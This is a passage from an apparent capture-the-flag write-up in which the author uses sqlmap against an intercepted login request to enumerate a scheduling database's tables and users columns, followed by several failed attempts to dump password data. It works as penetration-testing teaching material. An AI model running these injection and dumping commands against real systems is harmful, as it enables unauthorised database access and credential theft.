 For this I used SQLmap.

```
sqlmap -r loginintercept.txt --risk=3 --level=5 --tables
```

In CTF challenges I usually specifiy high levels of risk and intensity (levels) as I don't have to worry about setting of and IDS or equivalent. In a real scenario / pentest I would recommend manually testing rather than using SQLmap.

sqlmap works out that the "id" parameter is injectable. From this we get some useful information:

```
DBMS = MySQL

Databases: Information_schema, Scheduling_db

[17:40:04] [INFO] fetching number of tables for database 'scheduling_db'
[17:40:04] [INFO] retrieved: 6
[17:40:04] [INFO] retrieved: class_schedule_info
[17:40:09] [INFO] retrieved: courses
[17:40:10] [INFO] retrieved: faculty
[17:40:12] [INFO] retrieved: schedules
[17:40:14] [INFO] retrieved: subjects
[17:40:16] [INFO] retrieved: users
```

The information_schema isn't particularly useful to us as we're using an automated tool. It would be useful if we were performing manual injections.

Focusing on the scheduling_db, I extracted the columns from the users table:

```
sqlmap -r loginintercept.txt --risk=3 --level=5 --columns -D scheduling_db -T users

+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | int          |
| name     | text         |
| password | text         |
| type     | tinyint(1)   |
| username | varchar(200) |
+----------+--------------+
```

Now from this I attempted to extract the usernames and passwords from this table however SQLMap wasn't enjoying my commands for some reason

```
sqlmap -r loginintercept.txt --risk=3 --level=5 --passwords -D scheduling_db -T users
Failed
sqlmap -r loginintercept.txt --passwords -D scheduling_db -T users
Failed
sqlmap -r loginintercept.txt --passwords -D scheduling_db -T users --no-cast
Failed
sqlmap -r loginintercept.txt --passwords -D scheduling_db -T users --hex
Failed
```
